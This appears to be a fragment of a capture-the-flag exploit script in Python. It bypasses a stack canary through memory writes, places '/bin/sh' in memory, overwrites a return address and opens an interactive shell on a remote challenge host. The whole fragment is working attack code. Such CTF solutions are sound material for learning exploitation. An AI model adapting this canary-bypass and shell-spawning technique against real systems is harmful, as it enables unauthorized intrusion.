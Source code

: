 ```
        # Instrad write canary+1 and then 0x00

        # Step 1 : canary+1
        print("{:08x}".format(self.CANARY+1))
        self.write_memory(self.DATA_BASE_ADDR
                          + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                          + 8*5,
                          bytes.fromhex("{:08x}".format(self.CANARY+1))[::-1])
        print("*** WROTE canary + 1 ***")
        self.full_round()

        # Step 2 : null byte for first canary byte
        self.write_memory(self.DATA_BASE_ADDR
                          + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                          + 8*5,
                          b'\x00')
        print("*** WROTE canary null byte ***")
        self.full_round()

        #if self.remote:
        if False:
            self.write_memory(self.DATA_BASE_ADDR
                              + RPSHandler.OFFSET_EXIT_MESSAGE_DATA,
                              b'/readfla')
            print("*** WROTE /readfla ***")
            self.full_round()

            self.write_memory(self.DATA_BASE_ADDR
                              + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                              + 8,
                              b'g\x00')
            print("*** WROTE g 0x00 ***")
            self.full_round()

        else:
            # Write /bin/sh\x00
            self.write_memory(self.DATA_BASE_ADDR
                              + RPSHandler.OFFSET_EXIT_MESSAGE_DATA,
                              b'/bin/sh\x00')
            print("*** WROTE /bin/sh ***")
            self.full_round()

        # Last write at random place so that we indeed write null byte (needed only for debugging)
        self.write_memory(self.DATA_BASE_ADDR
                          + RPSHandler.OFFSET_EXIT_MESSAGE_DATA + 16,
                          b'aaaaaaaa')

        if (self.debug):
            input("Attached to debugger?")

        self.p.sendline(str((self.winning_seq[0])%3+1).encode())
        self.consume_all()
        self.p.sendline(str((self.winning_seq[1])%3+1).encode())
        self.consume_all()

        self.p.interactive()

rpshandler = RPSHandler(remote=('ssh-hq2qlw.inst.malicecyber.com', 4096), debug=False)
rpshandler.read_mappings()
rpshandler.find_canary()
rpshandler.overwrite_return_addr(align=True)
```
